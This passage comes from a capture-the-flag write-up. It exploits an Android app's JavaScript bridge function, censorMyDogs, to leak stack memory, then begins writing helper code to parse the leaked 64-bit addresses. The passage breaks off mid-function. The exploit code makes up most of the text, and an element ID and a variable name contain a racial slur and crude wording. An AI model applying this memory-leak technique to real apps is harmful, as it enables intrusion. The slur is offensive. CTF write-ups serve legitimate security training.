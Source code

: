 Now we can write some javascript code to call the censorMyDogs function with base64 encoded data and display the return data:

```html
<html>

<script>
function b64enc(val) {
    return btoa(val);
}

function dog(val) {
    return PetHandler.censorMyDogs(6969, b64enc(val));
}

function sicedeets() {
  var dicc = dog("AAAAAAAAAAAAA");
  document.getElementById("nigg").innerHTML += dicc;
}
</script>

<body onload="sicedeets();">
    <div id="nigg"></div>
</body>

</html>
```

Here is what you get:

![](https://raw.githubusercontent.com/VoidMercy/CTFs/master/h1-702%20CTF/pic25.png)

Wow!

![](https://raw.githubusercontent.com/VoidMercy/CTFs/master/h1-702%20CTF/pic27.jpg)

As you may have guessed, this returns a byte array of length 6969 from the stack. Next, lets write functions to parse this stack leak, so we can get address values. I had to use the [BigNumber](https://github.com/MikeMcl/bignumber.js/) module to handle 64 bit integers because javascript sucks just as much as java.

```javascript
function p64(val) {
    var cur = val;
    var ret = "";
    for (var i = 0; i < 8; i++) {
        ret += String.fromCharCode(cur & 0xff);
        cur = cur / 256;
    }
    return ret;
}

function unpack(offset, array) {
    var val = new BigNumber(0);
    for (var i = 7; i >= 0; i--) {
        val = val.plus(BigNumber(array[offset + i]));
        if (i != 0) {
            val = val.times(BigNumber(256));
        }
    }
    //val = val.divideBy(BigNumber(256));
    return val;
}

function strunpack(offset, array) {
    var ret = "";
```